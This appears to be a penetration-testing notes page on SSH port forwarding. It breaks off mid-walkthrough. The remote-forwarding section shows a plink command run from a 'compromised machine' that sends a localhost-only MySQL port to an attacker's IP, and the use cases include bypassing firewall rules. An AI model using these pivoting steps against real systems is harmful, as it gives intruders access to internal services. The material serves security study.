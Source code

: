 ### SSH Tunneling - Port forwarding on SSH

**Use cases**

* You want to encrypt traffic that uses unencrypted protocols. Like VNC, IMAP, IRC.
* You are on a public network and want to encrypt all your http traffic.
* You want to bypass firewall rules.

#### Local port forwarding

Now facebook will be available on address localhost:8080.

```text
ssh -L 8080:www.facebook.com:80 localhost
```

You can also forward ports like this:

```text
ssh username@<remote-machine> -L localport:target-ip:target-port

ssh username@192.168.1.111 -L 5000:192.168.1.222:5000
```

Now this port will be available on your localhost. So you go to:

```text
nc localhost:10000
```

#### Remote port forwarding

Remote port forwarding is crazy, yet very simple concept. So imagine that you have compromised a machine, and that machine has like MYSQL running but it is only accessible for localhost. And you can't access it because you have a really crappy shell. So what we can do is just forward that port to our attacking machine. The steps are as following:

Here is how you create a remote port forwarding:

```text
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

By the way, plink is a ssh-client for windows that can be run from the terminal. The ip of the attacking machine is **111.111.111.111**.

**Step 1** So on our compromised machine we do:

```text
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

**Step 2** Now we can check netstat on our attacking machine, we should see something like this:

```text
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

That means what we can connect to that port on the attacking machine from the attacking machine.

**Step 3** Connect using the following command:
